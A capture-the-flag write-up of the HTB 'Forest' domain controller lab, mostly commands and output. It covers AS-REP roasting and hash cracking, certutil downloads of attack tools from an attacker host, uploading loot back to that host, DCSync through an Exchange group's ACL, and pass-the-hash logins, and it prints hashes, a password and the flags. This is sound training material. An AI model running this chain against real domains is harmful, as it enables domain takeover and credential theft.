


# HTB Forest

Forest in an easy difficulty Windows Domain Controller (DC), for a domain in which Exchange Server has been installed. The DC is found to allow anonymous LDAP binds, which is used to enumerate domain objects. The password for a service account with Kerberos pre-authentication disabled can be cracked to gain a foothold. The service account is found to be a member of the Account Operators group, which can be used to add users to privileged Exchange groups. The Exchange group membership is leveraged to gain DCSync privileges on the domain and dump the NTLM hashes.


## User.txt 

We enumerate:

```bash
sudo nmap 10.129.216.197 -sC -sV -Pn
```

Results:

```
Nmap scan report for $ip
Host is up (0.041s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-10 09:47:51Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-10T09:47:57
|_  start_date: 2025-01-10T09:41:56
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-01-10T01:47:56-08:00
|_clock-skew: mean: 2h46m50s, deviation: 4h37m09s, median: 6m49s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

```

**2.** We can enumerate users in the domain with different tools:

Crackmapexec

```
crackmapexec smb $ip --users
```

rpcclient

```bash
rpcclient -U "" -N $ip
enumdomusers
```

enum4linux

```bash
enum4linux -U $ip

awk -F'[][]' '{print $2}' input_file > user_list.txt
cat user_list.txt
```


```bash
./windapsearch.py --dc-ip $ip -u "" -U
```

Results:

```
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```


**3.** We can  enumerate pasword policy with different tools:

Crackmapexec:

```bash
crackmapexec smb $ip --pass-pol
```

ldapsearch:

```bash
ldapsearch -H ldap://$ip -x -b "DC=HTB,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength 
```

Results:

```
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -9223372036854775808
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 0
pwdHistoryLength: 24
```

**4.** It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled.  ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. 

```bash
./kerbrute_linux_amd64 userenum -d htb.local --dc $ip user_list.txt
```

Results:

```
[+] svc-alfresco has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$svc-alfresco@HTB.LOCAL:f0654ad9358f6b63e21ef2bef0d75732$0e46e3dffa6c11cb7eb97de3f465092e06b6fb2ee8c92cd6f41a3d9eb256c000bb91d7bdb1984b7d7599a27436ff30a3d2272d43e59e39c4479792ad2e018ff25940343c07f3097fec53ba01a0807fdf23093417b45d23ae713cb6b5e6e844f0a4932e8bb6de1558b987a8d08557461f4629b8ce887f3eff17e19e95fd8ee31820ad50e4d4159345ae92ca8b86b97137c1deebad070f1deecffa49ececd224a892f79ec7aadeb601445f972dd81655310ebd0a621579ec7d3499366da19fe049e7d230c2dcfb61135ca09bccb55fb1c334a239953aa0a6923ad6701488c534bedadbe6d70ec1bfe2784bd82214ca775b2d101d1bbb7557632d35
```

However, we cannot crack this TGT. We will try then to get users with UF_DONT_REQUIRE_PREAUTH set with the impacket tool GetNPUsers.py:

```bash
.\GetNPUsers.py HTB.LOCAL/ -dc-ip $ip -no-pass -usersfile user_list.txt | grep -v SessionError
```

Results: User svc-alfresco returns a TGT

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:3b09da4079b5714ad77c7522f3415a9d$7f9fb9ddb2661b5994abe1f677190fe3005dfa115c2a23b1d44e96ba383e62cd7cfc4d4dcd5faea2f04b01596bbc0cf2996073b3e5dd48b4c98c33d6ab912a74b04111cf47938ebbb688f0eb20564cadb659f25df35a398eb959ee108246affcd4c940422cb87a6c6bd4aff834c77ee5abe8e6fc08d06a64b5b9feb8ff78f89fc457f0fee205401d1be5d01baaec5db250a1c8c275fe9b5be0575fdb7cbd190b3c14076f13c1a8f8da9a4c353537d3bdc5b066e253b90462fa9c6c110cf9d1134f0cc71cc80ed379484bbb6a8d99a8199abdded8c090b3cc73e9fc38558dfa557efc67a6c3c4
```

**5.** We crack it offline:

```bash
hashcat -m 18200 asp /usr/share/wordlists/rockyou.txt
```

Results: s3rvice

**6.** Access the host machine with the credentials:

```bash
evil-winrm -i $ip -u svc-alfresco -p 's3rvice'
```


```bash
type c:\Users\svc-alfresco\Desktop\user.txt
```

Result: 10f96f3b52fa0ae760a6bceb08339f76

## Root.txt

**1.** Serve some necessary files from my kali linux attacker machine:

```bash
python3 -m http.server 9001
```

**2.** On the previously established connection using evil-winrm, download the tools:

```bash
certutil.exe -urlcache -split -f "http://10.10.14.149:9001/SharpHound.exe" SharpHound.exe


certutil.exe -urlcache -split -f "http://10.10.14.149:9001/PSUpload.ps1" PSUpload.ps1
```

**3**. Launch the SharpHound collector:

```bash
.\SharpHound.exe -c All --zipfilename enum
```

**4.** From the kali, launch the uploadserver:

```bash
python3 -m uploadserver
```

**5.** From the evil-winrm connection, upload the zip file to the kali:

```bash
Import-Module .\PSUpload.ps1
Invoke-FileUpload -Uri http://10.10.14.149:8000/upload -File C:\Users\svc-alfresco\Documents\date_enum.zip
```

**6.** In the kali machine, launch bloodhound, upload the zip file and browse around in the bloodhound interface

```bash
# In a kali terminal
sudo neo4j console

# In another kali terminal
bloodhound

# Upload the file
```

**7.** Browsing Bloodhound, we mark the svc-alfresco account as owned with right click.  The `svc-alfresco` user is a member of **nine groups** through **nested group memberships** (groups within groups). Click on the "9" to display the membership graph. Among these groups, one is **Account Operators**, a privileged AD group.



[The **Account Operators** group can](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators):

- Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.
- Add users to **non-protected groups** (groups without critical roles like Domain Admins).

So now we  will leverage `svc-alfresco`’s membership in **Account Operators** to create a new user.

```powershell
# Create a new user named john and add him to the required groups.
net user john lalala123! /add /domain
```

Members of the Account Operators group can't manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group can't modify user rights.

**8.**  Now, we need to identify a group that is considered a non-protected group, but still have some permissions on Domain Admins. 

Using bloodhound, we can see that the **Exchange Windows Permissions** group has WriteDacl permissions on Domain Admins. We see this with the command `Shortest Path to High Value Targets`.



**9.** We will create a new user (e.g., `john`) and add them to:

- The **Exchange Windows Permissions** group (to leverage WriteDACL).
- The **Remote Management Users** group (to maintain remote access).

```powershell
# Create a new user named lala and add them to the required groups.
net user lala lalala123! /add /domain

# Add user to the group Exchange Windows Permissions: 
net group "Exchange Windows Permissions" lala /add

# Add user to the group Remote Management Users:
net localgroup "Remote Management Users" lala /add
```

**10.** Now, we will exploit **WriteDACL** privileges of the **Exchange Windows Permissions** group to grant DCSync rights.  

```bash
# For that we nee to have PowerView.ps1  in the WinRM connection:
# From the kali machine we will serve the file
python3 -m http.server 9001
# From the WinRM connection we download it:
certutil.exe -urlcache -split -f "http://10.10.14.149:9001/PowerView.ps1" PowerView.ps1

# Now we import the module and use the Add-ObjectACL command from PowerView to modify the ACL of the domain object. Grant DCSync rights to the new user (lala).
$SecPassword = ConvertTo-SecureString 'lalala123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\lala', $SecPassword)

Add-ObjectACL -PrincipalIdentity lala -Credential $Cred -Rights DCSync
```

**11.** Use the Impacket tool secretsdump with lala's credentials to dump NTLM hashes of all domain users, including privileged accounts like Domain Admins.

```bash
secretsdump.py htb/lala@$ip
```

**12.** Connect to the host machine as Administrator and dump the flag:

```bash
# Way 1:
evil-winrm -i $ip -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"

# Way 2: 
python3 psexec.py Administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

# Dump the flag:
type C:\Users\Administrator\Desktop\root.txt
```

Results: fbc8e83839f5d26e0b5028171c153015